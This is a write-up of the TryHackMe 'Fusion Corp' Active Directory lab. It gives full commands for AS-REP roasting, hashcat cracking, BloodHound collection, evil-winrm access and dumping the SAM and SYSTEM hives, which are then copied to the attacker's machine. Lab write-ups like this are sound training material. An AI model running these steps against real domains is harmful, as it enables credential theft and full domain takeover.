## Welcome everyone

Today, we will explore “Fusion Corp”, a hard-rated machine from **TryHackMe**.



## Information Gathering

First, we could perform an aggressive scan with **Nmap** with the `-A` switch to gather as much information as possible about the system we’re targeting:



Multiple services have been identified. Fundamentals here are:

**DNS** (Port 53)

**HTTP** (Port 80)

**Kerberos** (Port 88)

**RPC** (Port 135)

**NetBIOS** (Port 139)

**LDAP** (Port 389)

**SMB** (Port 445)

**RDP** (3389)

**WinRM** (Port 5985)

It could be deduced from the port scanning that we face an Active Directory environment. The `fusion.corp` domain and the `Fusion-DC.fusion.corp` FQDN of the  Domain Controller (`Fusion-DC` machine) have been identified by **Nmap Script Engine**’s default scripts (NSE)(added in `/etc/hosts`).

Since we start this box without any credentials, it has been attempted to access the **SMB shares** through `smbclient` as anonymous with the `-N` switch. However, directory listing was disabled as anonymous, and the Guest default account has been disabled.



That said, the enumeration of SMB shares is not yet complete; it was observed that anonymous authentication was left enabled, which could provide an attacker with opportunities to exploit even minimal permissions to enumerate the `fusion.corp` domain. For instance, attempting manually to access default SMB shares revealed that the `IPC$` share was publicly accessible, thereby posing a risk of disclosing the usernames of the domain's users and providing the attacker's enumeration phase with a goldmine through **RID brute-forcing**. 



Indeed, since the `IPC$` share was readable as anonymous, it has been attempted to dump all users in the domain by extracting their RID, which is derived from their unique SID. This could be attempted through **NetExec** (a very powerful pentesting tool)**,** with the `--rid-brute` options.



However, it has been denied.

SMB shares enumeration was set aside for a moment so that the penetration test could focus on enumerating the resources available through the HTTP service exposed on port 80. 

Inspecting the web root page revealed four users that have been tested for potential valid domain users.


However, Kerberos returned a `SessionError` confirming that the users were not members of the domain (several strings format were tried for all candidate users).



Therefore, further web enumeration was necessary. The **Gobuster** tool was used to enumerate potential hidden web resources.



An intriguing `backup` endpoint has been left exposed. Accessing it through a web browser revealed a folder containing a single file.



The hosted resource is a `employees.ods` file that is publicly accessible (no password required), especially since domain users-related information may be stored. Thus, it could be opened through a standard web browser without any secure JWT token/cookie or password to present. It could also be done through the CLI by using the `wget` native utility to download the file to local machine from the `http://fusion.corp/backup` target website URL. `libreoffice` could then be used to open the file as below:





Several valid usernames have been retrieved (listed in the image above), which already represents an important Information Disclosure issue. It allows an attacker to dangerousely target the many users found through Kerberos for potential attacks. Identified users were therefore placed in a `users.txt` file for further enumerations and attacks.


## Initial Access

Since the **Kerberos authentication flow** starts with an ***AS-REQ*** (Request) made by a user that is generally pre-authenticated with the **Authentication service** (AS) in order to receive a ***Ticket-Granting-Ticket*** (TGT) from the ***Key Distribution Center*** (KDC), owned by the Domain Controller (previously identified as `Fusion-DC.fusion.corp`), the pre-authentication step is significant for users to access a service legitimately; it is crucial from a security perspective for obvious reasons.

However, there is a flag in the ***userAccountControl*** attribute of an Active Directory account that, when set on an account, allows to make the KDC skip this **pre**-authentication check entirely during the AS-REQ: this flag is called `DONT_REQUIRE_PREAUTH`. If enabled, an ***AS-REP*** (Reply) could be obtained from the KDC, containing a **Kerberos credential** derived from the victim’s password hash that an attacker could attempt to crack offline through **Hashcat** or **John** **the** **Ripper**.

The Impacket suit contains awesome tools for AD pentesting. For this first exploitation stage, we will use **impacket-GetNPUsers**. The following command could be executed to present the constructed user list in order to query the KDC:

`impacket-GetNPUsers fusion.corp/ -no-pass -usersfile users.txt -dc-ip TARGET_IP`



The tool revealed that the identified users are not members of the domain, with the exception of one, who—in addition to having been discovered—has the `DONT_REQUIRE_PREAUTH` flag set, which made it possible to extract a TGT without knowing the user ***lparker***’s password by **bypassing** pre-authentication. The extracted ticket produced an AS-REP (etype 23) hash derived from the **NTLM user’s password hash**, which allows an attacker to perform offline crack of it. Hashcat uses mode `18200` for AS-REP etype 23 hashes, thus, the following command has been used:

`hashcat -m 18200 -a 0 lparker_hash.txt /usr/share/wordlists/rockyou.txt`



Given the **weakness** of the targeted user's password, the attempt to crack it was successful. As a result, authenticated access was obtained, which allowed for an in-depth enumeration of the domain's resources, notably via the **LDAP** protocol. For instance, `bloodhound-python` was used through the obtained access to collect domain objects, thereby allowing the relationships and nodes to be viewed in the **BloodHound** GUI.

(`bloodhound-python -u 'lparker' -p '<PASSWORD>' -d fusion.corp -ns <TARGET_IP> -c All --zip`)



It was then imported into Bloodhound as below:



Once the file ingest has been completed, the *Explore* section has been accessed to visualize domain objects relationships/nodes concerning the *lparker* compromised user. Checking the user's group membership reveals that he is a member of an interesting group called “***Remote Management Users***”. 



This groups allows group members to access the system remotely through the WinRM protocol, in the same way that the ***Remote Desktop Users*** group allows members to access the system via the RDP protocol.

`evil-winrm` has been used to obtain initial foothold on the target system, through the following command:

`evil-winrm -i fusion.corp -u lparker -p '<PASSWORD>'`

(The first flag has been retrieved in the user’s Desktop directory.)



The `net user /domain` command revealed that only two user accounts belonged to the `fusion.corp` domain: lparker and a newly discovered user, *jmurphy*.



Examining the associated object in BloodHound revealed that jmurphy is a ***Tier Zero*** user. Users in this group are typically domain administrators; they have full privileges across the entire domain, which allows them to manage it properly through multiple privileged groups membership, such as *Remote Management Users* group, ***Backup Operators*** group etc.



It might not have been immediately obvious on screen, but the image shown above reveals an extremely critical issue. The IT team at Fusion Corp deemed it acceptable to leave Joseph Murphy’s password in plain text in the user’s “***Description***” field (in the user’s LDAP `description` attribute), even though the password was more than sufficiently strong; the compromise of a domain administrator account is of unparalleled criticality. 



It was hoped that this LDAP field was obsolete and that the password in question had been changed in the meantime, but that was not the case; NetExec confirmed that the user description did indeed dangerously expose the password for a highly privileged account (in the *Tier Zero* zone), which an attacker could retrieve only after initially authenticating to the domain.



Since the user is a member of the *Remote Management Users* group, it was possible to gain access over the Domain Controller system remotely through evil-winrm, as it has been demonstrated previously. The second flag could be retrieved in the C:\Users\jmurphy\Desktop directory.



The *Backup Operators* group has been identified as including the user jmurphy. This privileged group allows members to perform sensitive system hives backup and restore locally through the SeBackupPrivilege and SeRestorePrivilege local privileges. These permissions could be abused to extract sensitive system hives, such as and **SYSTEM.** *SAM,* standing for Security Account Manager, stores local users secret on the machine and **SYSTEM** stores the ***syskey***, responsible for SAM decryption.

The following LOTL commands have been executed from the Windows system to copy SYSTEM & SAM registry hives in an accessible directory:

- `reg save HKLM\SAM SAM`
- `reg save  HKLM\SYSTEM SYSTEM`



These sensitive files could then be transfer to the attacking machine through SMB (w/ `impacket-smbserver` from attacking machine, with the `copy` native command from the Windows machine, as schematized below):



Registry hives have successfully been extracted from the Domain Controller. 

